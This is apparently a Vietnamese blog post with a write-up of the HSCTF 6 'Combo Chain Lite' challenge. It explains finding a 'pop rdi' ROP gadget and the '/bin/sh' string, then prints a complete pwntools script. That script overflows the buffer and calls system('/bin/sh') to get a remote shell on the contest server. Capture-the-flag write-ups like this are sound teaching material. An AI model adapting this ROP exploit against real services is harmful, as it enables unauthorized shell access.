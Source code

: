 ```yaml
---
layout: post
published: true
title: 'HSCTF 6: Combo Chain Lite'
---
```

Xin chào.
Hôm nay mình muốn viết lại challenge này.

![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)


Chall sử dụng ROP (Return Oriented Programming). Nên trước tiên ta tìm địa chỉ chưa ROPgadget phù hợp.
Trong quy ước gọi ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), các đối số được truyền vào các registers trong các chương trình 64-bit theo thứ tự như link tham khảo. Trong trường hợp của gọi `system`, thì chúng ta cần phải điều khiển thanh ghi RDI. Mình sẽ tìm các ROPgadget liên quan tới `pop rdi`. 

{: .box-note}
ROPgadget --binary ./combo-chain-lite | grep "pop rdi"
Khi đã có được địa chỉ của ROP, tiếp theo ta cần tìm cách đưa chuỗi "/bin/sh" vào như đối số của `system`. !<p align="center">
  ![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)
</p>
  
Nếu để ý thì trong chương trình đã có sẵn chuỗi đó, việc cần làm là tìm địa chỉ của nó trong chương trình mà thôi.
Có thể dùng gef hoặc gdb-peda:

{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}

<p align="center">
![combo-chain-lite-stack.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-stack.png)
</p>
Đoạn code exploit của mình:

{% highlight python linenos %}
#Completed

from pwn import *

rm = remote("pwn.hsctf.com", 3131)

padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
rop_addr = p64(0x0000000000401273)
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 

#print sys_addr #sys_addr
payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}








